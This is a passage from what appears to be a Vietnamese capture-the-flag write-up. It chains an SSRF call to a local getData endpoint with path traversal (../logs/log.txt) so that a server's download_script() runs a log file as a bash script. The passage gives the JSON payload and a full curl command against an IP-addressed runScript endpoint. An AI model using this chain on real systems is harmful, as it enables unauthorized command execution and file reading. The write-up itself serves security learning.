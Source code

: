     ![curl_1](img/PRP201_4.png)

    ![log.txt_1](img/PRP201_5.png)

- Thấy rõ là `ls` đã thụt xuống, vậy điều này có ý nghĩa gì? `bash <filename>` khi chạy sẽ chạy từ trên xuống như các ngôn ngữ lập trình, nhưng có một điều đặc biệt là, hàng nào lỗi, nó sẽ in ra lỗi và chạy hàng tiếp theo, chứ không dừng lại khi gặp lỗi syntax bên trong

- Đến đây thì mình đã nhận ra, hàm `download_script()`, vậy sẽ ra sao nếu mình truyền vào `url` trong JSON là `http://localhost:8888/getData?f=/fus/data/../logs/log.txt` (nên lưu ý `localhost` ở đây là local của server :> ), thì có phải `download_script()` sẽ lấy nội dung của `log.txt` để đưa vào `script_path`?

- Như vậy mình tạo JSON mới và lệnh `curl` mới như sau:

    ```json
        {
            "dir" : "test",
            "name" : "ls.sh",
            "command_log" : "lssh",
            "url" : "http://localhost:8888/getData?f=/fus/data/../logs/log.txt"
        }
    ```

    ```shell
        curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "test", "name" : "ls.sh", "command_log" : "lssh", "url" : "http://localhost:8888/getData?f=/fus/data/../logs/log.txt"}'
    ```

- Và gửi đi, giờ chỉ cần mở file `lssh.txt` bằng path traversal và thu được kết quả:

    ![curl_2](img/PRP201_6.png)
